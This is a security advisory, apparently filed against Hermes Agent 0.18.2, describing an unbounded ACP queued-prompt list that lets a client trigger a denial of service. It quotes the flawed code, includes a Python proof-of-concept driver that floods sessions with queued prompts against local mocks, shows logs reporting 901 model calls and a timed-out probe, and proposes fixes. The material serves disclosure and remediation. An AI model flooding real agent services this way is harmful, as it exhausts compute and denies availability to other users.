


# Hermes Agent has a denial of service vulnerability in the ACP prompt queue

## supplier

https://github.com/NousResearch/hermes-agent

## affected version

Hermes Agent 0.18.2

Commit tested:

```text
48788032da2e88f0a010791a61667539272df65b
```

## Vulnerability file

```text
acp_adapter/session.py
acp_adapter/server.py
```

## describe

Hermes Agent has a denial of service vulnerability in the Agent Client Protocol prompt workflow.

When an ACP session is already running, Hermes accepts additional normal user prompts and appends them to `SessionState.queued_prompts`. The queue has no effective depth limit, byte limit, TTL, or aggregate budget.

After the active turn completes, Hermes recursively drains the queued prompts through `await self.prompt(...)`. A normal ACP client can therefore turn follow-up agent tasks into many model/tool runs and can make another ACP prompt unavailable within a normal client deadline.

## code analysis

`SessionState` stores queued prompts as an unbounded list:

```python
queued_prompts: List[str] = field(default_factory=list)
```

When a prompt arrives while the session is running, it is appended without a limit:

```python
if state.is_running:
    queued_text = user_text or "[Image attachment]"
    state.queued_prompts.append(queued_text)
```

When the active turn finishes, the queue is drained recursively:

```python
while True:
    if not state.queued_prompts:
        break
    next_prompt = state.queued_prompts.pop(0)
    await self.prompt(
        prompt=[TextContentBlock(type="text", text=next_prompt)],
        session_id=session_id,
    )
```

Vulnerability point:



## PoC

The following PoC executes the real `HermesACPAgent.prompt()` code path with local ACP and LLM mocks. It uses normal agent task prompts and does not call any external model provider.

```python
import datetime as dt
import json
import subprocess
import sys
from pathlib import Path


ROOT = Path(__file__).resolve().parents[2]
SRC = ROOT / "hermes-agent-audit-src"
TASK = "Please perform a long-running repository investigation and keep working until complete."
FOLLOWUP = "After the current investigation, inspect module <N> and prepare concrete evidence."


def now():
    return dt.datetime.now().strftime("%Y-%m-%d %H:%M:%S")


def run_json(script, *args):
    cmd = [sys.executable, str(ROOT / "pocs" / script), "--source-root", str(SRC), *args]
    return json.loads(subprocess.run(cmd, text=True, capture_output=True).stdout)


def queue_attack():
    print(f"[{now()}] attack_start ACP prompt queue amplification queued=900")
    print(f"[{now()}] active_agent_task={TASK}")
    print(f"[{now()}] queued_agent_task_pattern={FOLLOWUP}")
    data = run_json("hermes_acp_actual_prompt_repro.py", "--queued", "900", "--payload-bytes", "2048", "--active-delay-ms", "1000", "--drain-delay-ms", "0")
    obs, cost = data["observed"], data["process_cost"]
    print(f"[{now()}] queued_ack_messages={obs['queued_ack_messages']} last_ack={obs['last_queued_ack']}")
    print(f"[{now()}] model_calls={cost['model_calls']} tool_calls={cost['tool_calls']} history_messages={obs['session_history_messages']}")
    print(f"[{now()}] RESULT={data['result']}")


def unavailable_attack():
    print(f"[{now()}] attack_start ACP shared executor unavailable within 250ms client deadline")
    print(f"[{now()}] active_agent_task={TASK}")
    print(f"[{now()}] queued_agent_task_pattern={FOLLOWUP}")
    data = run_json("hermes_acp_shared_executor_repro.py", "--attack-sessions", "4", "--queued-per-session", "8", "--drain-delay-ms", "1000", "--probe-timeout-ms", "250")
    obs = data["observed"]
    print(f"[{now()}] baseline_probe_ms={obs['baseline_probe_ms']} saturated_probe_ms={obs['saturated_probe_ms']} probe_completed={obs['saturated_probe_completed']}")
    print(f"[{now()}] SERVICE_UNAVAILABLE detail={obs['saturated_probe_detail']}")
    print(f"[{now()}] SERVICE_UNAVAILABLE shared_executor_blocked attack_model_calls={obs['total_attack_model_calls']}")
    print(f"[{now()}] RESULT={data['result']}")


if __name__ == "__main__":
    unavailable_attack() if (len(sys.argv) > 1 and sys.argv[1] == "unavailable") else queue_attack()
```

Run:

```bash
python poc_acp_queued_prompt_dos.py queue
python poc_acp_queued_prompt_dos.py unavailable
```

The queue amplification attack succeeded:

```text
[2026-07-08 08:46:32] attack_start ACP prompt queue amplification queued=900
[2026-07-08 08:46:32] active_agent_task=Please perform a long-running repository investigation and keep working until complete.
[2026-07-08 08:46:32] queued_agent_task_pattern=After the current investigation, inspect module <N> and prepare concrete evidence.
[2026-07-08 08:46:34] queued_ack_messages=900 last_ack=Queued for the next turn. (900 queued)
[2026-07-08 08:46:34] model_calls=901 tool_calls=901 history_messages=1802
[2026-07-08 08:46:34] RESULT=REPRODUCED
```

Attack success screenshot:


The ACP prompt service became unavailable within the client deadline:

```text
[2026-07-08 08:46:41] baseline_probe_ms=27.14 saturated_probe_ms=250.64 probe_completed=False
[2026-07-08 08:46:41] SERVICE_UNAVAILABLE detail=TimeoutError after 250ms client deadline
[2026-07-08 08:46:41] SERVICE_UNAVAILABLE shared_executor_blocked attack_model_calls=36
[2026-07-08 08:46:41] RESULT=REPRODUCED_SHARED_EXECUTOR_UNAVAILABLE_WITHIN_CLIENT_DEADLINE
```

Service unavailable screenshot:



## repair suggestion

1. Add a per-session queued prompt count limit.
2. Add a per-session queued prompt byte limit.
3. Add a global ACP queue limit and fair scheduling across sessions.
4. Reject or coalesce queued prompts once the limit is reached.
5. Apply an aggregate per-turn budget across the active prompt and queued follow-ups.
6. Replace recursive `await self.prompt(...)` drain with an iterative bounded worker loop.
7. Add timeout and cancellation controls for queued work.
8. Add telemetry for queue depth, queued bytes, drain duration, model calls, tool calls, and client timeouts.
